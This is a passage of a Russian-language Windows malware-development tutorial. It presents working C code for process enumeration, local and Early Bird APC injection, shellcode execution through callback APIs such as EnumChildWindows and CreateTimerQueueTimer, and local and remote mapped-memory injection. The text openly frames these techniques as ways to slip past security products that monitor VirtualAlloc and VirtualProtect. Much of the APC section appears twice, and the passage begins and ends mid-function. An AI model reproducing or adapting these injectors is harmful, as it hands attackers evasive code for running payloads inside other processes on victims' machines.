STATUS = pNtQuerySystemInformation(SystemProcessInformation, SystemProcInfo, uReturnLen1, &uReturnLen2);
if (STATUS != 0x0) {
printf("[!] NtQuerySystemInformation завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
while (TRUE) {
// Проверяем размер имени процесса
// Сравниваем имя перечисленного процесса с заданным целевым процессом
if (SystemProcInfo->ImageName.Length && wcscmp(SystemProcInfo->ImageName.Buffer, szProcName) == 0) {
// Открываем дескриптор целевого процесса, сохраняем его и завершаем выполнение
*pdwPid = (DWORD)SystemProcInfo->UniqueProcessId;
*phProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)SystemProcInfo->UniqueProcessId);
break;
}
// Если NextEntryOffset равен 0, мы достигли конца массива
if (!SystemProcInfo->NextEntryOffset)
break;
// Переходим к следующему элементу в массиве
SystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)((ULONG_PTR)SystemProcInfo + SystemProcInfo->NextEntryOffset);
}
// Освобождаем память, используя начальный адрес
HeapFree(GetProcessHeap(), 0, pValueToFree);
// Проверяем, удалось ли нам успешно получить дескриптор целевого процесса
if (*pdwPid == NULL || *phProcess == NULL)
return FALSE;
else
return TRUE;
}Этот код использует NtQuerySystemInformation, чтобы перечислить все процессы, работающие в системе, и затем ищет определенный процесс на основе его имени (szProcName). Если такой процесс найден, функция возвращает его идентификатор процесса (pdwPid) и дескриптор (phProcess). Если процесс не найден или произошла какая-либо другая ошибка, функция возвращает FALSE.
Демонстрация:
Изучаем технику APC Injection
Предлагаю в этой статье рассмотреть один способ выполнения полезной нагрузки без создания нового потока. Этот метод известен как APC-инъекция.
Что такое APC? Асинхронные вызовы процедур (APC) — это механизм операционной системы Windows, который позволяет программам выполнять задачи асинхронно, продолжая выполнять другие задачи. APC реализованы как процедуры в режиме ядра, выполняемые в контексте определенного потока.
Вредоносное ПО может использовать APC для постановки в очередь полезной нагрузки и последующего ее выполнения по расписанию.
Состояние готовности
Не все потоки могут выполнить поставленную в очередь функцию APC, это могут сделать только потоки в состоянии готовности. Такой поток находится в режиме ожидания. Когда поток переходит в состояние готовности, он помещается в очередь готовых потоков, что позволяет ему выполнять функции APC из очереди.
Что такое APC-инъекция?
Для постановки функции APC в очередь потока адрес этой функции должен быть передан в QueueUserAPC WinAPI.
Согласно документации Microsoft:
Приложение помещает APC в очередь потока, вызывая функцию QueueUserAPC. Вызывающий поток указывает адрес функции APC в вызове QueueUserAPC.
Адрес внедренной полезной нагрузки будет передан в QueueUserAPC для ее выполнения. Перед этим поток в локальном процессе должен быть переведен в состояние готовности.
QueueUserAPC
QueueUserAPC представлена ниже и принимает 3 аргумента:
pfnAPC - Адрес вызываемой функции APC.
hThread - Дескриптор потока, находящегося в состоянии готовности или приостановленного потока.
dwData - Если функция APC требует параметры, они могут быть переданы здесь. В коде этой статьи это значение будет NULL.
Перевод потока в состояние готовности
Поток, который будет выполнять поставленную в очередь функцию, должен находиться в состоянии готовности. Это можно сделать, создав поток и используя один из следующих WinAPI:
Эти функции используются для синхронизации потоков и улучшения производительности и отклика приложений, однако в этом случае достаточно передать дескриптор фиктивного события.
Передача корректных параметров этим функциям не требуется, так как простое использование одной из функций достаточно для перевода потока в состояние готовности.
Для создания фиктивного события будет использоваться WinAPI CreateEvent.
Новый объект события — это объект синхронизации, который позволяет потокам общаться между собой, сигнализируя и ожидая событий. Поскольку результат CreateEvent не имеет значения, любое действующее событие может быть передано ранее показанными WinAPI.
Использование функций
Ниже приведены примеры использования функций для перевода текущего потока в состояние готовности.
Используя Sleep:
Используя SleepEx:
Используя WaitForSingleObject:
Используя MsgWaitForMultipleObjects:
Используя SignalObjectAndWait:
Потоки созданные в приостановленном состоянии, также могут выполниться.
Если целевой поток создается в приостановленном состоянии. Если этот метод используется для выполнения полезной нагрузки, сначала следует вызвать QueueUserAPC, а затем возобновить приостановленный поток. При этом поток должен быть создан в приостановленном состоянии, приостановка существующего потока не сработает.
Код, представленный в этой статье, демонстрирует APC-инъекцию через поток в состоянии готовности и приостановленный поток.
Логика реализации APC-инъекции
В качестве итога, логика реализации будет следующей:
Сначала создайте поток, который выполняет одну из вышеупомянутых функций, чтобы перевести его в состояние готовности. Внедрите полезную нагрузку в память. Дескриптор потока и базовый адрес полезной нагрузки будут переданы в качестве входных параметров в QueueUserAPC.
Функция APC-инъекции RunViaApcInjection — это функция, которая выполняет APC-инъекцию и требует 3 аргумента:
hThread - Дескриптор потока, находящегося в состоянии готовности или приостановленного.
pPayload - Указатель на базовый адрес полезной нагрузки.
sPayloadSize - Размер полезной нагрузки.
Демо - APC-инъекция с использованием потока в состоянии готовности
Демо - APC-инъекция с использованием потока в приостановленном состоянии
APC Injection в удаленном процессе
Теперь предлагаю использовать тот же API для выполнения полезной нагрузки в удаленном процессе. Хотя подход немного отличается, используемый метод остается тем же.
К этому моменту должно быть хорошо понятно, что инъекция APC требует либо приостановленного потока, либо потока в состоянии готовности для успешного выполнения полезной нагрузки.
Однако трудно найти потоки в этих состояниях, особенно те, которые работают с обычными правами пользователя.
Решение состоит в создании приостановленного процесса с использованием WinAPI CreateProcess и использовании дескриптора его приостановленного потока. Приостановленный поток соответствует критериям использования в APC инъекции. Этот метод известен как ранняя инъекция APC (Early Bird APC Injection).
Логика реализации Early Bird. Логика реализации этой техники будет следующей:
Будет использоваться CreateProcess, но флаг создания процесса будет изменен с CREATE_SUSPENDED на DEBUG_PROCESS. Флаг DEBUG_PROCESS создает новый процесс в качестве отлаживаемого процесса и делает локальный процесс его отладчиком. Когда процесс создается как отлаживаемый процесс, точка останова устанавливается в его точке входа. Это приостанавливает процесс и ожидает, когда отладчик (то есть вредоносное ПО) возобновит выполнение.
Когда это происходит, полезная нагрузка внедряется в целевой процесс для выполнения с помощью WinAPI QueueUserAPC. После внедрения полезной нагрузки и постановки в очередь отлаживаемого потока для выполнения полезной нагрузки, локальный процесс может быть отсоединен от целевого процесса с использованием DebugActiveProcessStop WinAPI, что прекращает отладку удаленного процесса.
DebugActiveProcessStop требует только одного параметра, который представляет собой PID отлаживаемого процесса, который можно получить из структуры PROCESS_INFORMATION, заполненной CreateProcess.
Обновленная логика будет следующей:
CreateSuspendedProcess2 - это функция, которая создает процесс в приостановленном состоянии:
Далее необходимо:
Демо
На изображении ниже показан только что созданный целевой процесс в состоянии отладки. Отлаживаемый процесс выделен пурпурным цветом в Process Hacker.
Далее полезная нагрузка записывается в целевой процесс.
Наконец, полезная нагрузка выполняется.
Что такое APC? Асинхронные вызовы процедур (APC) — это механизм операционной системы Windows, который позволяет программам выполнять задачи асинхронно, продолжая выполнять другие задачи. APC реализованы как процедуры в режиме ядра, выполняемые в контексте определенного потока.
Вредоносное ПО может использовать APC для постановки в очередь полезной нагрузки и последующего ее выполнения по расписанию.
Состояние готовности
Не все потоки могут выполнить поставленную в очередь функцию APC, это могут сделать только потоки в состоянии готовности. Такой поток находится в режиме ожидания. Когда поток переходит в состояние готовности, он помещается в очередь готовых потоков, что позволяет ему выполнять функции APC из очереди.
Что такое APC-инъекция?
Для постановки функции APC в очередь потока адрес этой функции должен быть передан в QueueUserAPC WinAPI.
Согласно документации Microsoft:
Приложение помещает APC в очередь потока, вызывая функцию QueueUserAPC. Вызывающий поток указывает адрес функции APC в вызове QueueUserAPC.
Адрес внедренной полезной нагрузки будет передан в QueueUserAPC для ее выполнения. Перед этим поток в локальном процессе должен быть переведен в состояние готовности.
QueueUserAPC
QueueUserAPC представлена ниже и принимает 3 аргумента:
pfnAPC - Адрес вызываемой функции APC.
hThread - Дескриптор потока, находящегося в состоянии готовности или приостановленного потока.
dwData - Если функция APC требует параметры, они могут быть переданы здесь. В коде этой статьи это значение будет NULL.
C:
DWORD QueueUserAPC(
[in] PAPCFUNC pfnAPC,
[in] HANDLE hThread,
[in] ULONG_PTR dwData
);Перевод потока в состояние готовности
Поток, который будет выполнять поставленную в очередь функцию, должен находиться в состоянии готовности. Это можно сделать, создав поток и используя один из следующих WinAPI:
C:
Sleep
SleepEx
MsgWaitForMultipleObjects
MsgWaitForMultipleObjectsEx
WaitForSingleObject
WaitForSingleObjectEx
WaitForMultipleObjects
WaitForMultipleObjectsEx
SignalObjectAndWaitЭти функции используются для синхронизации потоков и улучшения производительности и отклика приложений, однако в этом случае достаточно передать дескриптор фиктивного события.
Передача корректных параметров этим функциям не требуется, так как простое использование одной из функций достаточно для перевода потока в состояние готовности.
Для создания фиктивного события будет использоваться WinAPI CreateEvent.
Новый объект события — это объект синхронизации, который позволяет потокам общаться между собой, сигнализируя и ожидая событий. Поскольку результат CreateEvent не имеет значения, любое действующее событие может быть передано ранее показанными WinAPI.
Использование функций
Ниже приведены примеры использования функций для перевода текущего потока в состояние готовности.
Используя Sleep:
C:
VOID AlertableFunction1() {
Sleep(-1);
}Используя SleepEx:
C:
VOID AlertableFunction2() {
SleepEx(INFINITE, TRUE);
}Используя WaitForSingleObject:
C:
VOID AlertableFunction3() {
HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
if (hEvent){
WaitForSingleObject(hEvent, INFINITE);
CloseHandle(hEvent);
}
}Используя MsgWaitForMultipleObjects:
C:
VOID AlertableFunction4() {
HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
if (hEvent) {
MsgWaitForMultipleObjects(1, &hEvent, TRUE, INFINITE, QS_INPUT);
CloseHandle(hEvent);
}
}Используя SignalObjectAndWait:
C:
VOID AlertableFunction5() {
HANDLE hEvent1 = CreateEvent(NULL, NULL, NULL, NULL);
HANDLE hEvent2 = CreateEvent(NULL, NULL, NULL, NULL);
if (hEvent1 && hEvent2) {
SignalObjectAndWait(hEvent1, hEvent2, INFINITE, TRUE);
CloseHandle(hEvent1);
CloseHandle(hEvent2);
}
}Потоки созданные в приостановленном состоянии, также могут выполниться.
Если целевой поток создается в приостановленном состоянии. Если этот метод используется для выполнения полезной нагрузки, сначала следует вызвать QueueUserAPC, а затем возобновить приостановленный поток. При этом поток должен быть создан в приостановленном состоянии, приостановка существующего потока не сработает.
Код, представленный в этой статье, демонстрирует APC-инъекцию через поток в состоянии готовности и приостановленный поток.
Логика реализации APC-инъекции
В качестве итога, логика реализации будет следующей:
Сначала создайте поток, который выполняет одну из вышеупомянутых функций, чтобы перевести его в состояние готовности. Внедрите полезную нагрузку в память. Дескриптор потока и базовый адрес полезной нагрузки будут переданы в качестве входных параметров в QueueUserAPC.
Функция APC-инъекции RunViaApcInjection — это функция, которая выполняет APC-инъекцию и требует 3 аргумента:
hThread - Дескриптор потока, находящегося в состоянии готовности или приостановленного.
pPayload - Указатель на базовый адрес полезной нагрузки.
sPayloadSize - Размер полезной нагрузки.
C:
BOOL RunViaApcInjection(IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
PVOID pAddress = NULL;
DWORD dwOldProtection = NULL;
pAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pAddress == NULL) {
printf("\t[!] VirtualAlloc не удалось выполнить с ошибкой : %d \n", GetLastError());
return FALSE;
}
memcpy(pAddress, pPayload, sPayloadSize);
if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("\t[!] VirtualProtect не удалось выполнить с ошибкой : %d \n", GetLastError());
return FALSE;
}
// Если hThread находится в состоянии готовности, QueueUserAPC непосредственно выполнит полезную нагрузку
// Если hThread находится в приостановленном состоянии, полезная нагрузка не будет выполнена, пока поток не будет возобновлен после этого
if (!QueueUserAPC((PAPCFUNC)pAddress, hThread, NULL)) {
printf("\t[!] QueueUserAPC не удалось выполнить с ошибкой : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}Демо - APC-инъекция с использованием потока в состоянии готовности
Демо - APC-инъекция с использованием потока в приостановленном состоянии
APC Injection в удаленном процессе
Теперь предлагаю использовать тот же API для выполнения полезной нагрузки в удаленном процессе. Хотя подход немного отличается, используемый метод остается тем же.
К этому моменту должно быть хорошо понятно, что инъекция APC требует либо приостановленного потока, либо потока в состоянии готовности для успешного выполнения полезной нагрузки.
Однако трудно найти потоки в этих состояниях, особенно те, которые работают с обычными правами пользователя.
Решение состоит в создании приостановленного процесса с использованием WinAPI CreateProcess и использовании дескриптора его приостановленного потока. Приостановленный поток соответствует критериям использования в APC инъекции. Этот метод известен как ранняя инъекция APC (Early Bird APC Injection).
Логика реализации Early Bird. Логика реализации этой техники будет следующей:
- Создать приостановленный процесс, используя флаг CREATE_SUSPENDED.
- Записать полезную нагрузку в адресное пространство нового целевого процесса.
- Получить дескриптор приостановленного потока из CreateProcess вместе с базовым адресом полезной нагрузки и передать их в QueueUserAPC.
- Возобновить поток с использованием WinAPI ResumeThread для выполнения полезной нагрузки.
Будет использоваться CreateProcess, но флаг создания процесса будет изменен с CREATE_SUSPENDED на DEBUG_PROCESS. Флаг DEBUG_PROCESS создает новый процесс в качестве отлаживаемого процесса и делает локальный процесс его отладчиком. Когда процесс создается как отлаживаемый процесс, точка останова устанавливается в его точке входа. Это приостанавливает процесс и ожидает, когда отладчик (то есть вредоносное ПО) возобновит выполнение.
Когда это происходит, полезная нагрузка внедряется в целевой процесс для выполнения с помощью WinAPI QueueUserAPC. После внедрения полезной нагрузки и постановки в очередь отлаживаемого потока для выполнения полезной нагрузки, локальный процесс может быть отсоединен от целевого процесса с использованием DebugActiveProcessStop WinAPI, что прекращает отладку удаленного процесса.
DebugActiveProcessStop требует только одного параметра, который представляет собой PID отлаживаемого процесса, который можно получить из структуры PROCESS_INFORMATION, заполненной CreateProcess.
Обновленная логика будет следующей:
- Создать отлаживаемый процесс, установив флаг DEBUG_PROCESS.
- Записать полезную нагрузку в адресное пространство нового целевого процесса.
- Получить дескриптор отлаживаемого потока из CreateProcess вместе с базовым адресом полезной нагрузки и передать их в QueueUserAPC.
- Прекратить отладку удаленного процесса с использованием DebugActiveProcessStop, который возобновляет его потоки и выполняет полезную нагрузку.
CreateSuspendedProcess2 - это функция, которая создает процесс в приостановленном состоянии:
- lpProcessName - Имя процесса для создания.
- dwProcessId - Указатель на DWORD, который получит PID только что созданного процесса.
- hProcess - Указатель на HANDLE, который получит дескриптор только что созданного процесса.
- hThread - Указатель на HANDLE, который получит дескриптор только что созданного потока процесса.
C:
BOOL CreateSuspendedProcess2(LPCSTR lpProcessName, DWORD* dwProcessId, HANDLE* hProcess, HANDLE* hThread) {
CHAR lpPath [MAX_PATH * 2];
CHAR WnDr [MAX_PATH];
STARTUPINFO Si = { 0 };
PROCESS_INFORMATION Pi = { 0 };
// Очистка структур, установка значений элементов в 0
RtlSecureZeroMemory(&Si, sizeof(STARTUPINFO));
RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));
// Установка размера структуры
Si.cb = sizeof(STARTUPINFO);
// Получение пути переменной окружения %WINDIR% (который обычно равен 'C:\Windows')
if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {
printf("[!] GetEnvironmentVariableA не удалось выполнить с ошибкой : %d \n", GetLastError());
return FALSE;
}
// Создание пути к целевому процессу
sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);
printf("\n\t[i] Запуск : \"%s\" ... ", lpPath);
// Создание процесса
if (!CreateProcessA(
NULL,
lpPath,
NULL,
NULL,
FALSE,
DEBUG_PROCESS, // Вместо CREATE_SUSPENDED
NULL,
NULL,
&Si,
&Pi)) {
printf("[!] CreateProcessA не удалось выполнить с ошибкой : %d \n", GetLastError());
return FALSE;
}
printf("[+] ГОТОВО \n");
// Заполнение выходного параметра результатами выполнения CreateProcessA
*dwProcessId = Pi.dwProcessId;
*hProcess = Pi.hProcess;
*hThread = Pi.hThread;
// Проверка наличия всего необходимого
if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL)
return TRUE;
return FALSE;
}Далее необходимо:
- Записать полезную нагрузку в адресное пространство нового целевого процесса.
- Передать dwProcessId и адрес полезной нагрузки в QueueUserAPC.
- Прекратить отладку удаленного процесса вызвав DebugActiveProcessStop, который возобновляет его потоки и выполняет полезную нагрузку.
Демо
На изображении ниже показан только что созданный целевой процесс в состоянии отладки. Отлаживаемый процесс выделен пурпурным цветом в Process Hacker.
Далее полезная нагрузка записывается в целевой процесс.
Наконец, полезная нагрузка выполняется.
Вызов кода через функции обратного вызова
Введение
Функции обратного вызова используются для обработки событий или выполнения действия, когда выполняется определенное условие. Они применяются в различных сценариях в операционной системе Windows, включая обработку событий, управление окнами и многопоточность.
Определение функции обратного вызова от Microsoft следующее:
Функция обратного вызова - это код в управляемом приложении, который помогает функции неконтролируемой DLL завершить задачу. Вызовы функции обратного вызова передаются косвенно из управляемого приложения через функцию DLL и обратно к управляемой реализации.
Некоторые обычные API Windows имеют возможность выполнять полезные нагрузки с помощью обратных вызовов. Их использование предоставляет преимущества перед решениями безопасности, так как эти функции могут казаться безвредными и потенциально уклоняться от некоторых решений по безопасности.
Злоупотребление функциями обратного вызова
Обратные вызовы Windows можно выполнить с помощью указателя на функцию. Чтобы запустить полезную нагрузку, адрес полезной нагрузки должен быть передан вместо действительного указателя на функцию обратного вызова. Выполнение обратного вызова может заменить использование CreateThread WinAPI и других техник, связанных с выполнением потоков. Кроме того, нет необходимости правильно использовать функции, передавая соответствующие параметры. Возвращаемое значение или функциональность этих функций не имеют значения.
Одним важным моментом о функциях обратного вызова является то, что они работают только в адресном пространстве локального процесса и не могут быть использованы для выполнения техник внедрения удаленного кода.
Примеры функций обратного вызова
Следующие функции способны выполнять функции обратного вызова.
3-й параметр CreateTimerQueueTimer:
C:
BOOL CreateTimerQueueTimer(
[out] PHANDLE phNewTimer,
[in, optional] HANDLE TimerQueue,
[in] WAITORTIMERCALLBACK Callback, // здесь
[in, optional] PVOID Parameter,
[in] DWORD DueTime,
[in] DWORD Period,
[in] ULONG Flags
);2-й параметр EnumChildWindows:
C:
BOOL EnumChildWindows(
[in, optional] HWND hWndParent,
[in] WNDENUMPROC lpEnumFunc, // здесь
[in] LPARAM lParam
);1-й параметр EnumUILanguagesW:
C:
BOOL EnumUILanguagesW(
[in] UILANGUAGE_ENUMPROCW lpUILanguageEnumProc, // здесь
[in] DWORD dwFlags,
[in] LONG_PTR lParam
);4-й параметр VerifierEnumerateResource:
C:
ULONG VerifierEnumerateResource(
HANDLE Process,
ULONG Flags,
ULONG ResourceType,
AVRF_RESOURCE_ENUMERATE_CALLBACK ResourceCallback, // здесь
PVOID EnumerationContext
);Следующие разделы предоставят подробные объяснения для каждой из этих функций. Полезная нагрузка, используемая в примерах кода, хранится в разделе .text бинарного файла. Это позволяет shellcode иметь необходимые разрешения памяти RX, не прибегая к выделению исполняемой памяти с использованием VirtualAlloc или других функций выделения памяти.
Использование CreateTimerQueueTimer
CreateTimerQueueTimer создает новый таймер и добавляет его в указанную очередь таймеров. Таймер определяется с помощью функции обратного вызова, которая вызывается, когда таймер истекает. Функция обратного вызова выполняется потоком, который создал очередь таймеров.
Приведенный ниже фрагмент выполняет код, расположенный в Payload, как функцию обратного вызова.
C:
HANDLE hTimer = NULL;
if (!CreateTimerQueueTimer(&hTimer, NULL, (WAITORTIMERCALLBACK)Payload, NULL, NULL, NULL, NULL)){
printf("[!] CreateTimerQueueTimer не удалось с ошибкой: %d \n", GetLastError());
return -1;
}Использование EnumChildWindows
EnumChildWindows позволяет программе перечислять дочерние окна родительского окна. Он принимает дескриптор родительского окна в качестве входных данных и применяет определенную пользователем функцию обратного вызова к каждому из дочерних окон поочередно. Функция обратного вызова вызывается для каждого дочернего окна и получает дескриптор дочернего окна и значение, определенное пользователем, в качестве параметров.
Приведенный ниже фрагмент выполняет код, расположенный в Payload, как функцию обратного вызова.
C:
if (!EnumChildWindows(NULL, (WNDENUMPROC)Payload, NULL)) {
printf("[!] EnumChildWindows не удалось с ошибкой: %d \n", GetLastError());
return -1;
}Использование EnumUILanguagesW
EnumUILanguagesW перечисляет языки пользовательского интерфейса (UI), установленные в системе. Он принимает функцию обратного вызова в качестве параметра и применяет функцию обратного вызова к каждому языку UI поочередно. Обратите внимание, что любое значение вместо флага MUI_LANGUAGE_NAME все равно работает.
Приведенный ниже фрагмент выполняет код, расположенный в Payload, как функцию обратного вызова.
C:
if (!EnumUILanguagesW((UILANGUAGE_ENUMPROCW)Payload, MUI_LANGUAGE_NAME, NULL)) {
printf("[!] EnumUILanguagesW не удалось с ошибкой: %d \n", GetLastError());
return -1;
}Использование VerifierEnumerateResource
VerifierEnumerateResource используется для перечисления ресурсов в указанном модуле. Ресурсы - это данные, которые хранятся в модуле (например, в исполняемом файле или библиотеке динамической компоновки) и к которым можно получить доступ модулем или другими модулями во время выполнения. Примеры ресурсов включают строки, битовые изображения и шаблоны диалоговых окон.
VerifierEnumerateResource экспортируется из verifier.dll, поэтому модуль должен быть динамически загружен с использованием LoadLibrary и GetProcAddress WinAPI для доступа к функции.
Обратите внимание, что если параметр ResourceType не равен AvrfResourceHeapAllocation, то полезная нагрузка не будет выполнена. AvrfResourceHeapAllocation позволяет функции перечислять выделение кучи, включая блоки метаданных кучи.
C:
HMODULE hModule = NULL;
fnVerifierEnumerateResource pVerifierEnumerateResource = NULL;
hModule = LoadLibraryA("verifier.dll");
if (hModule == NULL){
printf("[!] LoadLibraryA не удалось с ошибкой: %d \n", GetLastError());
return -1;
}
pVerifierEnumerateResource = GetProcAddress(hModule, "VerifierEnumerateResource");
if (pVerifierEnumerateResource == NULL) {
printf("[!] GetProcAddress не удалось с ошибкой: %d \n", GetLastError());
return -1;
}
// Необходимо установить флаг AvrfResourceHeapAllocation для выполнения полезной нагрузки
pVerifierEnumerateResource(GetCurrentProcess(), NULL, AvrfResourceHeapAllocation, (AVRF_RESOURCE_ENUMERATE_CALLBACK)Payload, NULL);Заключение
В этой статье рассмотрено несколько функций обратного вызова и продемонстрировано их использование для выполнения полезной нагрузки. Функции обратного вызова полезны только тогда, когда полезная нагрузка работает в адресном пространстве памяти локального процесса.
Страницу документации Microsoft можно исследовать, чтобы обнаружить дополнительные функции обратного вызова.
Кроме того, был создан репозиторий GitHub, который содержит список наиболее распространенных функций обратного вызова.
Инъекция отображаемой памяти
Локальная инъекция отображаемой памяти
Введение
До сих пор во всех предыдущих реализациях использовался тип локальной памяти для хранения полезной нагрузки во время выполнения. Локальная память выделяется с использованием VirtualAlloc или VirtualAllocEx.На следующем изображении показана выделенная локальная память в реализации "LocalThreadHijacking", содержащей полезную нагрузку.
Отображаемая память
Процесс выделения локальной памяти тщательно отслеживается средствами безопасности из-за его широкого использования вредоносным программам.Чтобы избежать таких часто контролируемых WinAPI, таких-как VirtualAlloc/Ex и VirtualProtect/Ex, инъекция отображаемой памяти использует тип отображаемой памяти с использованием различных WinAPI, таких как CreateFileMapping и MapViewOfFile.
Также стоит отметить, что WinAPI VirtualProtect/Ex не может использоваться для изменения разрешений памяти отображаемой памяти.
Локальная инъекция отображаемой памяти
Этот раздел объясняет WinAPI, необходимые для выполнения локальной инъекции отображаемой памяти.CreateFileMapping
CreateFileMapping создает объект отображения файла, предоставляя доступ к содержимому файла через техники отображения памяти.Это позволяет процессу создать виртуальное пространство памяти, которое отображается на содержимое файла на диске или на другое место в памяти. Функция возвращает дескриптор объекта отображения файла.
C:
HANDLE CreateFileMappingA(
[in] HANDLE hFile,
[in, optional] LPSECURITY_ATTRIBUTES lpFileMappingAttributes, // Не требуется - NULL
[in] DWORD flProtect,
[in] DWORD dwMaximumSizeHigh, // Не требуется - NULL
[in] DWORD dwMaximumSizeLow,
[in, optional] LPCSTR lpName // Не требуется - NULL
);Три обязательных параметра для этой техники объяснены ниже. Параметры, отмеченные как необязательные, могут быть установлены в NULL.
- hFile — дескриптор файла, из которого создается дескриптор отображения файла. Поскольку создание отображения файла из файла не требуется в реализации, может быть использован флаг INVALID_HANDLE_VALUE.
- flProtect — определяет защиту страницы объекта отображения файла. В этой реализации будет установлено PAGE_EXECUTE_READWRITE.
- dwMaximumSizeLow — размер возвращаемого дескриптора отображения файла. Значение этого параметра будет размером полезной нагрузки.
MapViewOfFile
MapViewOfFile отображает объект отображения файла в адресном пространстве процесса. Он принимает дескриптор объекта отображения файла и желаемые права доступа и возвращает указатель на начало отображения в адресном пространстве процесса.
C:
LPVOID MapViewOfFile(
[in] HANDLE hFileMappingObject,
[in] DWORD dwDesiredAccess,
[in] DWORD dwFileOffsetHigh, // Not Required - NULL
[in] DWORD dwFileOffsetLow, // Not Required - NULL
[in] SIZE_T dwNumberOfBytesToMap
);Три обязательных параметра для этой техники объяснены ниже. Параметры, отмеченные как необязательные, могут быть установлены в NULL.
- hFileMappingObject — возвращаемый дескриптор из WinAPI CreateFileMapping, который является объектом отображения файла.
- dwDesiredAccess — тип доступа к объекту отображения файла, который определяет защиту страницы созданной страницы.
- dwNumberOfBytesToMap — размер полезной нагрузки.
Функция LocalMapInject
LocalMapInject — функция, выполняющая локальную инъекцию отображаемой памяти. Она принимает 3 аргумента:- pPayload — базовый адрес полезной нагрузки.
- sPayloadSize — размер полезной нагрузки.
- ppAddress — указатель на PVOID, который получает базовый адрес отображаемой памяти.
C:
BOOL LocalMapInject(IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID* ppAddress) {
BOOL bSTATE = TRUE;
HANDLE hFile = NULL;
PVOID pMapAddress = NULL;
hFile = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
if (hFile == NULL) {
printf("[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
pMapAddress = MapViewOfFile(hFile, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, sPayloadSize);
if (pMapAddress == NULL) {
printf("[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
memcpy(pMapAddress, pPayload, sPayloadSize);
_EndOfFunction:
*ppAddress = pMapAddress;
if (hFile)
CloseHandle(hFile);
return bSTATE;
}UnmapViewOfFile
UnmapViewOfFile — это WinAPI, который используется для деактивации ранее отображаемой памяти. Эта функция должна вызываться только после завершения выполнения полезной нагрузки и не во время ее выполнения. UnmapViewOfFile требует только базовый адрес отображаемого представления файла для его деактивации.
Демо
Выделение буфера отображаемой памяти.
Копирование нагрузки
Запуск, через создание потока
Удаленная инъекция через отображение памяти
В этом разделе объясняются WinAPI, необходимые для удаленной инъекции через отображение памяти. Шаги выполнения удаленной инъекции через отображение памяти перечислены ниже.
- Вызывается CreateFileMapping для создания объекта отображения файла.
- Затем вызывается MapViewOfFile, чтобы отобразить объект отображения файла в адресное пространство локального процесса.
- Полезная нагрузка перемещается в локально выделенную память.
- Новое представление файла отображается в удаленное адресное пространство целевого процесса, используя MapViewOfFile2, отображая локальное представление файла в удаленный процесс, и таким образом, нашу скопированную полезную нагрузку.
MapViewOfFile2 отображает представление файла в адресное пространство указанного, удаленного процесса.
C:
PVOID MapViewOfFile2(
[in] HANDLE FileMappingHandle, // Дескриптор для объекта отображения файла, возвращенного CreateFileMappingA/W
[in] HANDLE ProcessHandle, // Дескриптор целевого процесса
[in] ULONG64 Offset, // Не требуется - NULL
[in, optional] PVOID BaseAddress, // Не требуется - NULL
[in] SIZE_T ViewSize, // Не требуется - NULL
[in] ULONG AllocationType, // Не требуется - NULL
[in] ULONG PageProtection // Желаемая защита страницы.
);- FileMappingHandle - дескриптор раздела, который будет отображен в адресное пространство указанного процесса.
- ProcessHandle - дескриптор процесса, в котором будет отображен раздел. Дескриптор должен иметь маску доступа PROCESS_VM_OPERATION.
- PageProtection - желаемая защита страницы.
В отличие от локальной инъекции через отображение памяти, нет необходимости делать локальное представление файла исполняемым, так как полезная нагрузка не выполняется локально. Вместо этого MapViewOfFile использует флаг FILE_MAP_WRITE для копирования полезной нагрузки.
MapViewOfFile2 затем отображает те же байты в адресное пространство целевого процесса.
MapViewOfFile2 делит дескриптор отображения файла с MapViewOfFile. Следовательно, любые изменения полезной нагрузки в локально отображенном представлении файла отражаются в удаленном отображенном представлении файла в удаленном процессе. Это полезно для реальных реализаций, где требуется выполнить зашифрованную полезную нагрузку, так как полезная нагрузка может быть отображена в удаленный процесс и дешифрована локально, тем самым дешифруя полезную нагрузку в удаленном представлении файла для выполнения.
Функция удаленной инъекции через отображение памяти
RemoteMapInject - это функция, которая выполняет удаленную инъекцию через отображение памяти. Она принимает 4 аргумента:
- hProcess - дескриптор целевого процесса.
- pPayload - базовый адрес полезной нагрузки.
- sPayloadSize - размер полезной нагрузки.
- ppAddress - указатель на PVOID, который получает базовый адрес отображенной памяти.
C:
BOOL RemoteMapInject(IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID* ppAddress) {
BOOL bSTATE = TRUE;
HANDLE hFile = NULL;
PVOID pMapLocalAddress = NULL,
pMapRemoteAddress = NULL;
hFile = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
if (hFile == NULL) {
printf("\t[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
pMapLocalAddress = MapViewOfFile(hFile, FILE_MAP_WRITE, NULL, NULL, sPayloadSize);
if (pMapLocalAddress == NULL) {
printf("\t[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
memcpy(pMapLocalAddress, pPayload, sPayloadSize);
pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
if (pMapRemoteAddress == NULL) {
printf("\t[!] MapViewOfFile2 Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
